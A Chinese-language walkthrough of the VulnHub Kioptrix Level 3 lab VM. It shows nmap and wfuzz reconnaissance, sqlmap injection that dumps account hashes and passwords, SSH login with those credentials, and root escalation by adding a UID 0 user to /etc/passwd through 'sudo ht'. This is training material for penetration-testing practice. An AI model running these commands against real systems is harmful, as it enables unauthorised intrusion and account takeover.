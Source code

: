 # Kioptrix3-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

**Description**

It's been a while since the last Kioptrix VM challenge. Life keeps getting the way of these things you know.

After the seeing the number of downloads for the last two, and the numerous videos showing ways to beat these challenges. I felt that 1.2 (or just level 3) needed to come out. Thank you to all that downloaded and played the first two. And thank you to the ones that took the time to produce video solutions of them. Greatly appreciated.

As with the other two, this challenge is geared towards the beginner. It is however different. Added a few more steps and a new skill set is required. Still being the realm of the beginner I must add. The same as the others, there’s more then one way to “pwn” this one. There’s easy and not so easy. Remember… the sense of “easy” or “difficult” is always relative to ones own skill level. I never said these things were exceptionally hard or difficult, but we all need to start somewhere. And let me tell you, making these vulnerable VMs is not as easy as it looks…

Important thing with this challenge. Once you find the IP (DHCP Client) edit your hosts file and point it to kioptrix3.com

Under Windows, you would edit C:\Windows\System32\drivers\etc\hosts to look something like this:

```
# localhost name resolution is handled within DNS itself.
#   127.0.0.1 localhost
#   ::1 localhost127.0.0.1 static3.cdn.ubi.com

192.168.1.102 kioptrix3.com
```

Under Linux that would be /etc/hosts

There’s a web application involved, so to have everything nice and properly displayed you really need to this.

Hope you enjoy Kioptrix VM Level 1.2 challenge.

452 Megs

MD5 Hash : d324ffadd8e3efc1f96447eec51901f2

Have fun

Source: http://www.kioptrix.com/blog/?p=358

**知识点**
- SQL 注入
- ht 提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix3/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.146` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.146
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix3/2.png)

SSH 和 web,从 web 先入手,先按照要求修改 hosts 文件,访问 web 看看
```bash
echo "192.168.141.146 kioptrix3.com" >> /etc/hosts
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix3/3.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix3/4.png)

看上去是用 lotusCMS 搭建的,先目录扫描看下
```
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://kioptrix3.com/FUZZ | grep 301
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix3/5.png)

有个 phpmyadmin,访问看看

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix3/6.png)

2.11.3 版本有个 CVE-2009-1151,实际测试并不能利用成功,没办法了,从其他地方入手吧

---

# 中期-漏洞利用

注意到主页下面有个链接指向 `http://kioptrix3.com/gallery/`

发现这里可以进行排序,对 id 参数测试 SQL 注入

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix3/7.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix3/8.png)

这里可能存在 SQL 注入,直接 Sqlmap 跑起来
```
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1%27 --current-db
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1%27 -D gallery --tables
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1%27 -D gallery -T dev_accounts --dump
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix3/9.png)

```
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
```

可以看到跑出2个账号组合,测试了一下，不能登录 web,想到之前扫出的 SSH,试了下登录成功,2个都可以登录

---

# 后期-提权

dreg 账号实在是没什么可利用的，loneferret 账号下有一些利用的点

```
sudo -l
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix3/10.png)

ht 是一个文本编辑器,尝试用它来提权
```
sudo ht /etc/passwd
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix3/11.png)

提示我需要设置 xtrem-color
```
export TERM=xterm-color
sudo ht /etc/passwd
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix3/12.png)

实际上这里我是一脸懵逼的,这玩意咋整啊

按 F3,打开文件,输入 /etc/passwd ,回车

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix3/13.png)

最末尾加上
```
test:sXuCKi7k3Xh/s:0:0::/root:/bin/bash
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix3/14.png)

按 F10,退出,记得保存
```
su test
toor
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix3/15.png)

提权成功,感谢 Kioptrix Team 制作靶机
